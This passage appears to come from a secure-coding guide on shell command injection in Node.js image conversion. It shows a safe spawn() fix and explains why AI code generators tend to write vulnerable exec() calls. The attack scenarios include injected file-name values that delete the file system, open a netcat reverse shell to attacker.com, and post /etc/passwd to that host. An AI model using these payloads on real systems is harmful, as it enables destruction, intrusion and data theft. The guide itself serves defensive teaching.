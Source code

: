 ```javascript
        return res.status(400).json({ error: 'Invalid quality value' });
    }

    // ✅ SECURE: Use spawn with argument array
    const convert = spawn('convert', [
        path.basename(inputFile),
        '-quality', qualityNum.toString(),
        `output.${outputFormat}`
    ]);

    convert.on('close', (code) => {
        if (code !== 0) {
            return res.status(500).json({ error: 'Conversion failed' });
        }
        res.json({ success: true, output: `output.${outputFormat}` });
    });
});
```

### Why AI Generates This Vulnerability

**1. exec() is Simpler:**
- Single function call vs spawn() configuration
- AI defaults to simpler API
- exec() allows shell syntax (pipes, redirects)

**2. String Interpolation Habit:**
- Consistent with other code patterns
- AI sees millions of examples using template strings
- Doesn't recognize security boundary

**3. No Input Validation in Training Data:**
- Many examples skip validation for brevity
- Tutorial code focuses on functionality
- Security controls added separately (if at all)

### Attack Scenarios

**Attack 1: Command Chaining**
```javascript
inputFile = "image.jpg; rm -rf /"
// Executes: convert image.jpg -quality 80 output.jpg; rm -rf /
// Deletes entire file system
```

**Attack 2: Reverse Shell**
```javascript
inputFile = "image.jpg; nc attacker.com 4444 -e /bin/bash"
// Opens reverse shell to attacker
// Attacker gains shell access to server
```

**Attack 3: Data Exfiltration**
```javascript
inputFile = "image.jpg; curl -X POST https://attacker.com/data -d @/etc/passwd"
// Sends sensitive files to attacker
```
